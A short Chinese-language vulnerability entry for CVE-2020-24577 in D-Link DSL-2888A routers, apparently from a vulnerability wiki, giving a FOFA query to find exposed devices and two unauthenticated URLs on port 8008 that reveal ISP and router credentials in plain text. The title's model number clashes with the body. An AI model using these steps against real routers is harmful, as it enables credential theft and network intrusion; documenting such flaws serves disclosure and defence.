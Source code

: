 # D-Link DSL-28881A 信息泄露 CVE-2020-24577

## 漏洞描述

通过物理连接或无线访问建立与网络的连接后，恶意用户可以通过直接浏览以下URL来获取纯文本格式的Internet提供商连接用户名和密码，以及无线路由器的纯文本格式的用户名和密码

## 漏洞影响

> [!NOTE]
>
> D-Link DSL-2888A

## FOFA

> [!NOTE]
>
> body="DSL-2888A"

## 漏洞复现

登录页面输入任意密码建立连接

![](http://wikioss.peiqi.tech/vuln/link-1.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

跳转到 http://xxx.xxx.xxx.xxx/page/login/login.html?error=fail 显示密码错误

访问下列两个连接

http://xxx.xxx.xxx.xxx:8008/tmp/cfg/lib_cfg_cfgcmd
http://xxx.xxx.xxx.xxx:8008/tmp/.nvram

![](http://wikioss.peiqi.tech/vuln/link-3.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

> [!NOTE]
>
> 连接Wifl或物理连接Wifi才能访问